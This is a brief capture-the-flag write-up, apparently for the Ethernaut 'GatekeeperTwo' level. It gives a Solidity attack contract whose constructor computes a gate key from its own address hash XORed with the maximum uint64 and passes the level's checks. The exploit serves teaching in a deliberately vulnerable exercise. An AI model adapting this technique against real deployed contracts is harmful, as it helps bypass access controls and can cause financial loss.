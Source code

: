 ## Description
I see 3 ways, through create2, to pick up on the algorithm of creating the address by hand, to write in the constructor yul insertion to search the number uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) in the binary system to get a number that with ^ will give type(uint64).max
TO DO

Took a break and as I came back I realized that I was digging a little wrong and things could be simpler.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}


contract Attack {
    IGatekeeperTwo public gatekeeperOne;

    constructor(address _gatekeeperOne){
        gatekeeperOne = IGatekeeperTwo(_gatekeeperOne);
        gatekeeperOne.enter(bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max));
    }
  
}
```